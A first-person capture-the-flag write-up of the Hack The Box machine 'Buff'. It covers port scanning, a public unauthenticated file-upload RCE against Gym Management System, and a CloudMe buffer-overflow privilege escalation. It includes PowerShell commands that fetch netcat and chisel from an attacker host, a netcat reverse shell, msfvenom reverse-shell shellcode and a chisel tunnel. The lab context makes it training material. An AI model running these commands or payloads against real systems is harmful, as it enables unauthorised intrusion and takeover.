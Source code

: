 # HTB - Buff

#### Ip: 10.10.10.198
#### Name: Buff
#### Rating: Easy

----------------------------------------------------------------------

Buff.png

### Enumeration

I'll kick off enumerating this box by scanning all TCP ports with Nmap:

```text
┌──(ryan㉿kali)-[~/HTB/Buff]
└─$ sudo nmap -p- --min-rate 10000 10.10.10.198 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-01 16:16 CDT
Nmap scan report for 10.10.10.198
Host is up (0.072s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT     STATE SERVICE
7680/tcp open  pando-pub
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 13.42 seconds
```

Looks like just 2 open ports. Lets look a bit more closely at these using the `-sC` and `-sV` flags to use basic scripts and to enumerate versions:

```text
┌──(ryan㉿kali)-[~/HTB/Buff]
└─$ sudo nmap -sC -sV -T4 10.10.10.198 -p 7680,8080
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-01 16:18 CDT
Nmap scan report for 10.10.10.198
Host is up (0.064s latency).

PORT     STATE SERVICE    VERSION
7680/tcp open  pando-pub?
8080/tcp open  http       Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_http-title: mrb3n's Bro Hut
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 58.49 seconds
```

Navigating to the site, we find what appears to be a gym website. I poked around not seeing too much of interest, until I found the Contact page. Looking here I find some more info about the software being used:

software.png

Not being familiar with this software, first thing I do is look it up using Searchsploit to see if there are any vulnerabilities/ exploits to be found.

searchsploit.png

Nice! I'm especially interested in the unauthenticated RCE exploit. You can either download it directly from searchsploit, or go out and grab it from ExploitDB (https://www.exploit-db.com/exploits/48506) Looking at the exploit, the comments state "Gym Management System version 1.0 suffers from an Unauthenticated File Upload Vulnerability allowing Remote Attackers to gain Remote Code Execution (RCE) on the Hosting Webserver via uploading a maliciously crafted PHP file that bypasses the image upload filters."

Interesting. Looking through the Python code, this should be good to just point and fire, with no changes needed.

### Exploitation


I execute the exploit at the target using:

`python2 gym-mgmt-system-rce.py http://10.10.10.198:8080/` 

(I'm using Python2, because this is an old script and I didn't want to have to go through and clean up all the print statements, after the transition to Python3)

The foothold was a breeze. After firing the script I'm presented with a web-shell, where I can grab user.txt.

user_flag.png

### Privilege Escalation

This web-shell is not the best to work out of, so I'm going to create a reverse shell from the web-shell back to my machine, so I can enumerate more comfortably.

To do this I'll need to transfer a netcat executable to the target machine. First I'll set up a python webserver and on the target box fetch netcat with 

```text
powershell -c iwr http://10.10.14.28/nc.exe -outfile nc.exe"
```

Now that we have netcat on the target we can easily get a stable reverse shell by issuing:

```text
nc.exe 10.10.14.28 1234 -e cmd.exe
```

Great, now we have a stable, fully interactive shell to work with. 

stable_shell.png

Browsing around the machine, I find and interesting executable in Shaun's Downloads folder:

find_cloudme.png

It also looks like the version number is being listed as well. Turning to ExploitDB to see if I can find any public exploits, I quickly find this one: https://www.exploit-db.com/exploits/48389. This is a Python script, which should be pretty straightforward to execute. 

But there is one small hurdle we'll have to get through first. Because this is exploit is written in python, and python is not normally installed on Windows machines, we'll need to use a tool like Chisel to tunnel from my machine to the victim.

So, lets get the exploit cleaned up and ready to execute and then transfer over Chisel to set up a tunnel.

### Modifying The Exploit

This is a pretty straight forward buffer overflow exploit which will only need  light updating. Looking at the code it looks like the shellcode provided opens up calc.exe, but we want something a bit more useful than that. So what we need to do is utilize msfvenom to create some new shell code that contains a reverse shell back to our box. We can do that as follows:

```text
┌──(ryan㉿kali)-[~/HTB/Buff]
└─$ msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.14.28 LPORT=4321 -b '\x00\x0A\x0D' -f python -v payload
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of python file: 1899 bytes
payload =  b""
payload += b"\xdb\xc8\xd9\x74\x24\xf4\xbd\xbd\xdb\x9d\x98"
payload += b"\x5a\x29\xc9\xb1\x52\x83\xea\xfc\x31\x6a\x13"
payload += b"\x03\xd7\xc8\x7f\x6d\xdb\x07\xfd\x8e\x23\xd8"
payload += b"\x62\x06\xc6\xe9\xa2\x7c\x83\x5a\x13\xf6\xc1"
payload += b"\x56\xd8\x5a\xf1\xed\xac\x72\xf6\x46\x1a\xa5"
payload += b"\x39\x56\x37\x95\x58\xd4\x4a\xca\xba\xe5\x84"
payload += b"\x1f\xbb\x22\xf8\xd2\xe9\xfb\x76\x40\x1d\x8f"
payload += b"\xc3\x59\x96\xc3\xc2\xd9\x4b\x93\xe5\xc8\xda"
payload += b"\xaf\xbf\xca\xdd\x7c\xb4\x42\xc5\x61\xf1\x1d"
payload += b"\x7e\x51\x8d\x9f\x56\xab\x6e\x33\x97\x03\x9d"
payload += b"\x4d\xd0\xa4\x7e\x38\x28\xd7\x03\x3b\xef\xa5"
payload += b"\xdf\xce\xeb\x0e\xab\x69\xd7\xaf\x78\xef\x9c"
payload += b"\xbc\x35\x7b\xfa\xa0\xc8\xa8\x71\xdc\x41\x4f"
payload += b"\x55\x54\x11\x74\x71\x3c\xc1\x15\x20\x98\xa4"
payload += b"\x2a\x32\x43\x18\x8f\x39\x6e\x4d\xa2\x60\xe7"
payload += b"\xa2\x8f\x9a\xf7\xac\x98\xe9\xc5\x73\x33\x65"
payload += b"\x66\xfb\x9d\x72\x89\xd6\x5a\xec\x74\xd9\x9a"
payload += b"\x25\xb3\x8d\xca\x5d\x12\xae\x80\x9d\x9b\x7b"
payload += b"\x06\xcd\x33\xd4\xe7\xbd\xf3\x84\x8f\xd7\xfb"
payload += b"\xfb\xb0\xd8\xd1\x93\x5b\x23\xb2\x91\x91\x25"
payload += b"\x5e\xce\xa7\x39\x4e\xef\x21\xdf\x04\xff\x67"
payload += b"\x48\xb1\x66\x22\x02\x20\x66\xf8\x6f\x62\xec"
payload += b"\x0f\x90\x2d\x05\x65\x82\xda\xe5\x30\xf8\x4d"
payload += b"\xf9\xee\x94\x12\x68\x75\x64\x5c\x91\x22\x33"
payload += b"\x09\x67\x3b\xd1\xa7\xde\x95\xc7\x35\x86\xde"
payload += b"\x43\xe2\x7b\xe0\x4a\x67\xc7\xc6\x5c\xb1\xc8"
payload += b"\x42\x08\x6d\x9f\x1c\xe6\xcb\x49\xef\x50\x82"
payload += b"\x26\xb9\x34\x53\x05\x7a\x42\x5c\x40\x0c\xaa"
payload += b"\xed\x3d\x49\xd5\xc2\xa9\x5d\xae\x3e\x4a\xa1"
payload += b"\x65\xfb\x7a\xe8\x27\xaa\x12\xb5\xb2\xee\x7e"
payload += b"\x46\x69\x2c\x87\xc5\x9b\xcd\x7c\xd5\xee\xc8"
payload += b"\x39\x51\x03\xa1\x52\x34\x23\x16\x52\x1d"
```

With:
`-a` for the architecture
`-p` for the payload
`-b` for the bad-characters (we didn't need to fuzz these ourselves, just use what's in the exploit)
`-f` for the format
`-v` for the variable

After updating the shellcode in the exploit, that should be it for updating the script.

Next, lets use Chisel to set up a tunnel between our machine and the target:

### Chisel

Chisel is my favorite tool for situations like this, because it can be used on both Windows and Linux machines, doesn't require SSH access, and is incredibly straight forward.

First things first I need to copy Chisel over to the Buff machine. To do this I'll use the same PowerShell one-liner I used to transfer over netcat:

```text
powershell -c iwr http://10.10.14.28/chisel_1.8.1_windows_amd64 -outfile chisel.exe"
```

After that I'll start up chisel on my box:

```text
┌──(ryan㉿kali)-[~/Tools/pivoting]
└─$ ./chisel_1.8.1_linux_arm64 server -p 8000 --reverse
2023/05/02 15:29:04 server: Reverse tunnelling enabled
2023/05/02 15:29:04 server: Fingerprint 309WBxmCGAhbAagxYAXEhj/f1HJY4GMGfA5zduVlXEk=
2023/05/02 15:29:04 server: Listening on http://0.0.0.0:8000
```

And finally I'll connect back to my server from Buff:

```text
.chisel.exe client 10.10.14.28:8000 R:8888:localhost:8888
```

Cool, we should now have a tunnel to use now. Let's fire off the exploit and grab root.txt:

```text
python cloudme-1112-bof.py
```

and check our netcat listener for a reverse shell as administrator:

root_flag.txt

Nice!

This was a great easy level box, with a  simple foothold and privilege escalation, but gave users the ability to practice tunneling, which makes it more unique and fun. 

Thanks for following along!

-Ryan

-----------------------------------------------------------------------